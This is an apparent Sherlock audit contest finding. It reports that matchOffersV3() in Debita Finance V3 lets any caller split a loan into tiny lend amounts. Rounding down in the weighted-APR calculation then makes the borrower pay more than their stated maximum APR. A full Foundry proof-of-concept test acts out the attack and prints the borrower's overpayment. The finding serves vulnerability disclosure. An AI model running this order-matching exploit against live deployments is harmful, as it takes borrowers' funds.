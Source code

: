 Micro Ginger Tarantula

High

# A borrower may pay more interest that he has specified, if orders are matched by a malicious actor

### Summary

In the ``DebitaV3Aggregator.sol`` contract, anybody can match borrow and lend orders by calling the [matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function. When borrowers create their borrow orders they specify a maximum APR they are willing to pay. However the [matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function allows the caller to specify an array of 29 different lend orders to be matched against each borrow offer. Another important parameter is the ``uint[] memory lendAmountPerOrder`` which specifies the amount of principal tokens each lend order will provide. A malicious user can provide smaller amounts for a part of the ``lendAmountPerOrder`` params, such that the borrower pays a higher APR on this amounts. The problem arises due to the fact that there are no minimum restrictions on the ``lendAmountPerOrder`` (except it being bigger than 0), and the fact that solidity rounds down on division. 
```solidity
uint updatedLastApr = (weightedAverageAPR[principleIndex] * amountPerPrinciple[principleIndex]) / (amountPerPrinciple[principleIndex] + lendAmountPerOrder[i]);
uint newWeightedAPR = (lendInfo.apr * lendAmountPerOrder[i]) / amountPerPrinciple[principleIndex];
weightedAverageAPR[principleIndex] = newWeightedAPR + updatedLastApr;
```
As we can see form the code snippet above, when the ``newWeightedAPR`` is calculated if the APR specified by the lender of a lend order and the lendAmountPerOrder product is less than the amountPerPrinciple[principleIndex], 0 will be added to the weightedAverageAPR for the borrow order. Now if the borrower has requested a lot of funds, paying much bigger APR than the one he specified on  **2% - 3%** on those funds results in big loss for the borrower. 
Let's consider a simplified example of the PoC provided in the PoC section
 - A borrower creates a borrow offer for  **500_000e6 USDC**, with  **WETH** as collateral, a  **5% APR**, and a ratio of **2_500e6 USDC** for  **1e18 WETH**, for a duration of  **150 days**.
 - There might be several lenders that have created orders that match the params of the borrow order, for simplicity consider there is one lender - LenderA that matches the params, and he has provided  **495_000e6 USDC** as available principal, or is left with such amount, after his lend order was matched with other borrow orders. 
 - Now the person who is matching the orders can either create a lend offer with higher APR, or find another lender who provides an accepted principal by the borrower, and accepts the offered collateral, but has a higher APR than the one specified by the borrower. 
 - We assumer the user matching the orders creates a lend order with  **10% APR**, which is double the APR specified by the borrower (instead of only hurting the borrower by making him pay more interest, he is also going to profit).
 - When matching the orders, the user will first provide a lendAmountPerOrder of **200_000e6 + 1** from the lend order of LenderA, and then 28 more lendAmountPerOrder **200e6** each from the lend order with 10% APR
 - Since the max length of the lendAmountPerOrder is 29, for a bigger impact the malicious user will call the [matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function once more, this time setting the first lendAmountPerOrder to be **286_391e6 + 1**, and the next amounts for the lendAmountPerOrder will be **286e6**
 - This results in two separate loan orders, however they are both for the same borrow order, in this way the borrower will have to pay **5% APR** on **486_391e6 + 2 USDC**, and **10% APR** on **13_608e6 USDC**. The borrower will have to pay double the APR he specified on **~2.72%** of the funds he received(excluding the Debita protocol withheld fees, on which the borrower still pays interest). This results in the borrower paying **10_553_568_492 USDC** instead of **10_273_952_054 USDC**, which is a difference of **279_616_438 ~279e6 USDC**, for the 150 day duration of the loan. Note that the above calculation are provided in the PoC below. 
 
 In conclusion this results in the borrower paying double the APR he specified on part of the principal he received. Keep in mind that the collateral is worth more than the principal, so the borrower is incentivized to repay his debt back, for some reason Debita has decided to not utilize liquidation if the nominal dollar value drops below the dollar nominal value of the principal, and rely only on loan duration for loan liquidations. Also in the above scenario the malicious actor profited by collecting a bigger interest rate on his assets. 

### Root Cause

In the [matchOffersV3()](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L274-L647) function, there are no limitations on who can call the function, and on the provided parameters. 

### Internal pre-conditions
Borrower creates a big borrow order

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact
When borrow orders are big (there are numerous cases where people have taken out millions in loans, by providing crypto assets as collateral), malicious actors can match borrow and lend orders in such a way that the borrower pays much more APR than he has specified on a percentage of the principal he receives. This is a clear theft of funds, and in most cases the attacker can profit, if he matches the borrow order with a lend order of himself with a higher APR, and once the loan is repaid, collect the interest rate. 

### PoC

[Gist](https://gist.github.com/AtanasDimulski/365c16f87db9360aaf11937b4d9f4be5)
After following the steps in the above mentiond [gist](https://gist.github.com/AtanasDimulski/365c16f87db9360aaf11937b4d9f4be5) add the following test to the ``AuditorTests.t.sol`` file:
<details>
  <summary>PoC</summary>

```solidity
    function test_InflateAPR() public {
        vm.startPrank(alice);
        WETH.mint(alice, 200e18);
        WETH.approve(address(dboFactory), type(uint256).max);

        bool[] memory oraclesActivated = new bool[](1);
        oraclesActivated[0] = false;

        uint256[] memory LTVs = new uint256[](1);
        LTVs[0] = 0;

        address[] memory acceptedPrinciples = new address[](1);
        acceptedPrinciples[0] = address(USDC);

        address[] memory oraclesAddresses = new address[](1);
        oraclesAddresses[0] = address(0);

        uint256[] memory ratio = new uint256[](1);
        ratio[0] = 2_500e6;

        /// @notice alice wants 2_500e6 USDC for 1 WETH
        address aliceBorrowOrder = dboFactory.createBorrowOrder(
            oraclesActivated,
            LTVs,
            500, /// @notice set max interest rate to 5%
            150 days,
            acceptedPrinciples,
            address(WETH),
            false,
            0,
            oraclesAddresses,
            ratio,
            address(0),
            200e18
        );
        vm.stopPrank();

        vm.startPrank(bob);
        USDC.mint(bob, 495_000e6);
        USDC.approve(address(dloFactory), type(uint256).max);

        address[] memory acceptedCollaterals = new address[](1);
        acceptedCollaterals[0] = address(WETH);

        address bobLendOffer = dloFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            LTVs,
            500,
            151 days,
            10 days,
            acceptedCollaterals,
            address(USDC),
            oraclesAddresses,
            ratio,
            address(0),
            495_000e6
        );
        vm.stopPrank();

        vm.startPrank(attacker);
        USDC.mint(attacker, 15_000e6);
        USDC.approve(address(dloFactory), type(uint256).max);

        address attackerLendOffer = dloFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            LTVs,
            1000,
            151 days,
            10 days,
            acceptedCollaterals,
            address(USDC),
            oraclesAddresses,
            ratio,
            address(0),
            15_000e6
        );

        /// @notice match orders
        address[] memory lendOrders = new address[](29);
        lendOrders[0] = address(bobLendOffer);
        for(uint256 i = 1; i < 29; i++) {
            lendOrders[i] = address(attackerLendOffer);
        }

        uint[] memory lendAmountPerOrder1 = new uint[](29);
        lendAmountPerOrder1[0] = 200_000e6 + 1;
        uint256 sumLendedLoanOrder1 = lendAmountPerOrder1[0];
        for(uint256 i = 1; i < 29; i++) {
            lendAmountPerOrder1[i] = 200e6;
            sumLendedLoanOrder1 += lendAmountPerOrder1[i];
        }

        uint[] memory porcentageOfRatioPerLendOrder = new uint[](29);
        for(uint256 i; i < 29; i++) {
            porcentageOfRatioPerLendOrder[i] = 10_000;
        }

        address[] memory principles = new address[](1);
        principles[0] = address(USDC);

        uint[] memory indexForPrinciple_BorrowOrder = new uint[](1);
        indexForPrinciple_BorrowOrder[0] = 0;

        uint[] memory indexForCollateral_LendOrder = new uint[](29);
        for(uint256 i; i < 29; i++) {
            indexForCollateral_LendOrder[i] = 0;
        }

        uint[] memory indexPrinciple_LendOrder = new uint[](29);
        for(uint256 i; i < 29; i++) {
            indexPrinciple_LendOrder[i] = 0;
        }

        address loanOrder1 = debitaV3Aggregator.matchOffersV3(
            lendOrders,
            lendAmountPerOrder1,
            porcentageOfRatioPerLendOrder,
            aliceBorrowOrder,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        uint[] memory lendAmountPerOrder2 = new uint[](29);
        lendAmountPerOrder2[0] = 286_391e6 + 1;
        uint256 sumLendedLoanOrder2 = lendAmountPerOrder2[0];
        for(uint256 i = 1; i < 29; i++) {
            lendAmountPerOrder2[i] = 286e6;
            sumLendedLoanOrder2 += lendAmountPerOrder2[i];
        }

        address loanOrder2 = debitaV3Aggregator.matchOffersV3(
            lendOrders,
            lendAmountPerOrder2,
            porcentageOfRatioPerLendOrder,
            aliceBorrowOrder,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        vm.stopPrank();

        vm.startPrank(alice);
        skip(150 days);

        uint256 aliceTotalBorrowed = sumLendedLoanOrder1 + sumLendedLoanOrder2;
        console2.log("Alice's total borrowed: ", aliceTotalBorrowed);
        uint256 taxedFee = aliceTotalBorrowed * 80 / 10_000;
        uint256 aliceUSDCBalance = USDC.balanceOf(alice);
        uint256 subFeeFromBalacne = aliceTotalBorrowed - taxedFee;
        uint256 aliceSupposedInterest = (aliceTotalBorrowed * 500) / 10000;
        uint256 duration = 150 days;
        uint256 aliceSupposedFinalPayment = (aliceSupposedInterest * duration) / 31536000;
        console2.log("The amount alice should have paid after 150 days on 5%APR : ", aliceSupposedFinalPayment);

        uint256 alice10APR = (13_608e6 * 1_000) / 10_000;
        uint256 alice10APRFinalPayment = (alice10APR * duration) / 31536000;
        uint256 aliceNormalAPR = ((lendAmountPerOrder1[0] + lendAmountPerOrder2[0]) * 500) / 10_000;
        uint256 aliceNormalAPRFinalPayment = (aliceNormalAPR * duration) / 31536000;
        uint256 aliceActualFinalInterestPayment = alice10APRFinalPayment + aliceNormalAPRFinalPayment;

        console2.log("Alice's actual final interest payment: ", aliceActualFinalInterestPayment);
        console2.log("Alice's overpays with: ", aliceActualFinalInterestPayment - aliceSupposedFinalPayment);

        USDC.mint(alice, 50_000e6);
        USDC.approve(address(loanOrder1), type(uint256).max);
        USDC.approve(address(loanOrder2), type(uint256).max);

        uint[] memory indexes = new uint[](29);
        for(uint256 i; i < 29; i++) {
            indexes[i] = i;
        }
        uint256 aliceUSDCBalanceBeforeRepaying = USDC.balanceOf(alice);
        DebitaV3Loan(loanOrder1).payDebt(indexes);
        DebitaV3Loan(loanOrder2).payDebt(indexes);
        uint256 aliceUSDCBalanceAfterRepaying = USDC.balanceOf(alice);
        uint256 aliceTotalPaidAmount = aliceUSDCBalanceBeforeRepaying - aliceUSDCBalanceAfterRepaying;
        console2.log("Alice's total paid amount: ", aliceTotalPaidAmount);
        vm.stopPrank();
    }
```
</details>

```solidity
  Alice's total borrowed:  499999000002
  The amount alice should have paid after 150 days on 5APR :  10273952054
  Alice's actual final interest payment:  10553568492
  Alice's overpays with:  279616438
  Alice's total paid amount:  510552568474
```

As can be seen from the logs above, and as explained in the example in the summary section, alice will overpay **~279e6 USDC**, this attack can be performed on multiple borrowers. **(( 10553568492 - 10273952054 ) /  10273952054) \* 100  = 2.72%**. The borrower overpays by more than **1%** and more than **$10**, which I believe satisfies the requirement for a high severity. 

To run the test use: ``forge test -vvv --mt test_InflateAPR``


### Mitigation
_No response_
